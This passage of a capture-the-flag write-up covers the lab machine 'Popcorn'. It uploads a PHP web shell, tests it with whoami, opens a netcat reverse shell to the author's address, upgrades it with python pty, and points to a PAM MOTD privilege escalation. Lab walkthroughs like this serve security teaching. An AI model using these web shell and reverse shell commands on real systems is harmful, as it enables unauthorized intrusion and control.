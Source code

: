 ``` nmap -p- 10.10.10.6 -sC -sV -oA full-scan ```
and this will result in a successful upload. 

![Upload Success]({{site.url}}/assets/popcorn/upload-success.png)

Now we just need to find where this has been uploaded to. When the torrent page is refreshed it attempts to load the image that has been uploaded. As a proper image has not been upload it doesn't preview the image, but by hovering the mouse over the message it reveals the location of the uploaded file at the very bottom of the page.

![Upload Location]({{site.url}}/assets/popcorn/upload-location.png)

It would also be possible to find this location by using gobuster as well by setting the URL to ``` http://10.10.10.6/torrent/ ``` as the upload directory has indexing enabled. 

![Indexing]({{site.url}}/assets/popcorn/indexing.png)

Now accessing the web shell and submitting the following command will prove code execution:

``` http://10.10.10.6/torrent/upload/<file name>.php?cmd=whoami ```

![whoami]({{site.url}}/assets/popcorn/whoami.png)

## Getting A Shell

From this we can use the web shell to run a netcat reverse shell command to get a shell. The command I used was:

``` ?cmd=nc 10.10.14.37 443 -e /bin/sh ```

Which was caught by the netcat listener that was setup beforehand. 

![Netcat Shell]({{site.url}}/assets/popcorn/netcat-shell.png)

Once in a shell on a linux box one of the first things I try to do is upgrade it and the python pty module is perfect for this. The full command run is:

``` python -c 'import pty;pty.spawn("/bin/bash")' ```

![Pty Upgrade]({{site.url}}/assets/popcorn/pty-upgrade.png)

After upgrading it is worth going to grab that user.txt flag and check out what other files are available, and if they contain anything interesting. 

## Privilege Escalation

From checking the user's home directory a file of interest was found called ``` motd.legal-displayed ``` within the ``` .cache ``` directory. A quick bit of research reveals that this file is created every time a user logs in via SSH and a bit more digging reveals that the PAM MOTD modules had a vulnerability that could allow a privilege escalation. Some details can be seen in the following blogpost:

* [Softpedia](https://news.softpedia.com/news/Ubuntu-Bug-Allows-Local-Users-to-Gain-Root-Privileges-146854.shtml)

> "Apparently the problem stems from unusual high access rights for the motd.legal-notice file dropped by pam_motd inside each user's local cache directory. “display_legal() can be tricked to follow a ~/.cache symlink and chown the target of the link to the unprivileged user."

A check in searchsploit reveals an exploit for this as well. 

![MOTD Searchsploit]({{site.url}}/assets/popcorn/motd.png)

```
